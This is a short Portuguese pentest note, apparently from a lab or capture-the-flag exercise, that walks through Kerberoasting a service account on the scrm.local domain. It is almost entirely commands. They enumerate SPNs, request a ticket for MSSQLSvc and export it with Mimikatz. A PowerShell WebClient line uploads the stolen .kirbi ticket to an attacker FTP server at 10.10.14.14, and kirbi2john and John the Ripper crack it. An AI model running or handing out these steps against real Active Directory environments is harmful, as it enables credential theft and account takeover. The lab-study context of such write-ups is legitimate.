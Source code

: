 # Kerberoasting

```
setspn -T scrm.local -Q */*
```

Temos que focar no que for contas de serviço que não seja de máquinas, conforme print abaixo:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Usuário de serviço (não é de máquina)</p></figcaption></figure>

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dc1.scrm.local:1433"
```

Requisitei o ticket

```
klist
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
kerberos::list /export
$client = New-Object System.Net.WebClient;$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous");$client.UploadFile("ftp://10.10.14.14/test.kirbi", "C:\temp\1-40a10000-sqlsvc@MSSQLSvc~dc1.scrm.local~1433-SCRM.LOCAL.kirbi")
python -m pyftpdlib --port=21 --write
```

```
python /home/acosta/owncloud/Area_de_trabalho/tools/linux/5-lateral_movement/kerberoast/kirbi2john.py test.kirbi > test.john
john --wordlist=/usr/share/wordlists/rockyou.txt test.john
```



